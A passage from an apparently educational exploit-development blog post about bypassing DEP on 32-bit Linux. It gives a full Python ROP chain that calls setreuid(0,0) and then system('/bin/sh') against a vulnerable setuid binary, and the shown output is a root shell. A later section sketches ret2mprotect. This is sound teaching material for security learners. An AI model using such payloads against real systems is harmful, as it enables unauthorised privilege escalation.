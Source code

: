 Putting this all together, if we call `setreuid` with two arguments, we can return into a `pop2ret` to remove those arguments, and then return into our `system("/bin/sh")`.  Let's grab our offset for setreuid:

```
ubuntu@ubuntu:~/Desktop/bof3$ readelf -s /lib/i386-linux-gnu/libc-2.23.so | grep setreuid
   480: 000df560   135 FUNC    WEAK   DEFAULT   13 setreuid@@GLIBC_2.0
```

Now put this all together calling `setreuid(0,0)` followed by `/bin/sh`:

```python
import struct

libc_base = 0xb7e0a000
system = libc_base + 0x0003ada0
exit = libc_base + 0x0002e9d0
binsh_string = libc_base + 0x15ba0b
setreuid = libc_base + 0x000df560
pop2ret = 0x80484ba

rop  = 'A'*140
rop += struct.pack('<L', setreuid)
rop += struct.pack('<L', pop2ret)
rop += struct.pack('<L', 0)
rop += struct.pack('<L', 0)
rop += struct.pack('<L',system)
rop += struct.pack('<L',exit)
rop += struct.pack('<L', binsh_string)
print rop
```

```
ubuntu@ubuntu:~/Desktop/bof3$ (python bof_setuid.py; cat) | ./bof
id
uid=0(root) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```
We're returned a root shell!

 ret2mprotect 
 --------------
I won't go over this too much, as I've already covered it fairly well in my [Calamity Writeup]().  The long and short of it is we can disable DEP entirely and run arbitrary shell-code in that manner.  We use the `mprotect` function in libc to make our stack executable, and then jump to it as before.  Read the write-up if you're curious about this method.

Conclusion
--------------
 Next time I'll cover how this falls apart if ASLR is enabled, and I will go over the ways this protection can also be bypassed using similar techniques.  If there's anything you'd like me to cover or any mistakes I've made, I'm more than happy for any feedback!
 
References  & Further Reading
-------------- 
[0x00sec Exploit Mitigation Techniques - Data Execution Prevention](https://0x00sec.org/t/exploit-mitigation-techniques-data-execution-prevention-dep/4634)  
[The Stack Frame](http://www.cs.uwm.edu/classes/cs315/Bacon/Lecture/HTML/ch10s07.html)  
[Exploiting Environment Variables](http://techblog.rosedu.org/exploiting-environment-variables.html)  
[HackTheBox - October](https://reboare.github.io/hackthebox/htb-october.html)  
[HackTheBox - Calamity](https://reboare.github.io/hackthebox/calamity.html)  
